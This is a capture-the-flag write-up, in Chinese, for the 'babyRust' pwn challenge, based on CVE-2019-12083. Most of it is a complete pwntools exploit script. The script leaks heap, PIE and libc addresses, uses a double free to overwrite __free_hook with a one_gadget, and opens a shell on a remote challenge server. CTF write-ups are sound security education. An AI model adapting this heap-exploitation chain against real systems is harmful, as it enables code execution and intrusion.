 [中文](./README_zh.md) [English](./README.md)

# babyRust wp

babyRust 源码：https://github.com/zjw88282740/babyRust


出题思路来源[CVE-2019-12083](https://www.cvedetails.com/cve/CVE-2019-12083/ "CVE-2019-12083 security vulnerability details")

逆向有点恶心
任意读十分简单，通过读got表得到libc基址，观察可发现存在double free的情况，直接写__free_hook
```
from pwn import *
libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#p=process("./babyRust")
context.log_level="debug"
p=remote("207.148.126.75",60001)
def show():
    p.recvuntil("4.exit\n")
    p.sendline("2")

def edit(name,x,y,z,i):
    p.recvuntil("4.exit\n")
    p.sendline("3")
    p.recvuntil("input your name:")
    p.sendline(name)
    p.recvuntil(":")
    p.sendline(str(x))
    p.recvuntil(":")
    p.sendline(str(y))
    p.recvuntil(":")
    p.sendline(str(z))
    p.recvuntil(":")
    p.sendline(str(i))

#gdb.attach(p)

p.recvuntil("4.exit\n")
p.sendline("1312") #Boom->S
show()
heap_addr=int(p.recvuntil(", ",drop=True)[2:])-0xa40
print hex(heap_addr)

p.sendline("1313")
p.sendline("1314")

edit("aaa",heap_addr+0x2ce0,0,0,0)
show()
p.sendline("1312")
#show()
print p.recv()

p.sendline("1313")


edit("bbb ",heap_addr+0xb18,8,8,heap_addr+0xb18)
show()
p.recvuntil("3,3,")
pie_addr=u64(p.recv(8))-239480

print hex(pie_addr)

edit("bbb ",pie_addr+0x3be78,8,8,0)
show()
p.recvuntil("3,3,")

libc_addr=u64(p.recv(8))-1161904
print hex(libc_addr)
edit("bbbbb",heap_addr+0x2d40,2,3,4)
p.sendline("1314")
p.recvuntil("4.exit\n")
p.sendline("1")
p.recvuntil("input your name:")
p.sendline("z")

p.recvuntil(":")
p.sendline(str(0))
p.recvuntil(":")
p.sendline(str(4015))
p.recvuntil(":")
p.sendline(str(5))
p.recvuntil(":")
p.sendline(str(0))
show()
free_hook=libc_addr+libc.symbols['__free_hook']-0x28-8
p.sendline("1312")
edit("\x00"*0x20,free_hook,0,0,0)
one_gadget=libc_addr+0x4f322
p.sendline("1313")
edit("\x00"*0x30,free_hook,2,3,one_gadget)
p.sendline("1314")
p.interactive()

```